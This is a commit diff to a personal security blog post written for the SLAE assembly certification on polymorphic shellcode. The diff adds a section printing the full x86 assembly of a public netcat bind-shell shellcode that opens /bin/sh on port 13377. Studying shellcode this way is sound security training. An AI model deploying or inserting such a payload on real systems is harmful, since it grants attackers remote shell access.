

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-17-SLAE-Polymorphic.md, in a window 1280 px wide and 900 px high, scrolled down 3114 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3655 px from its top, so only the background shows below that.

Commit message:
Update 2021-01-17-SLAE-Polymorphic.md

````diff
--- a/_posts/posts/2021-01-17-SLAE-Polymorphic.md
+++ b/_posts/posts/2021-01-17-SLAE-Polymorphic.md
@@ -219,6 +219,42 @@ Final Size: 39 bytes
 
 Increment: 19%
 
+#### Netcat Shellcode (Shellcode #3)
+
+Finally, the third shellcode from the three will be one that performs a bind shell connection in port 13377 through the netcat application. It can be found [here](http://shell-storm.org/shellcode/files/shellcode-804.php).
+
+
+###### Original code:
+
+```term
+section .text
+    global _start
+_start:
+xor eax,eax
+xor edx,edx
+push 0x37373333
+push 0x3170762d
+mov edx, esp
+push eax
+push 0x68732f6e
+push 0x69622f65
+push 0x76766c2d
+mov ecx,esp
+push eax
+push 0x636e2f2f
+push 0x2f2f2f2f
+push 0x6e69622f
+mov ebx, esp
+push eax
+push edx
+push ecx
+push ebx
+xor edx,edx
+mov  ecx,esp
+mov al,11
+int 0x80
+```
+
 ### Code
 
 This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
````
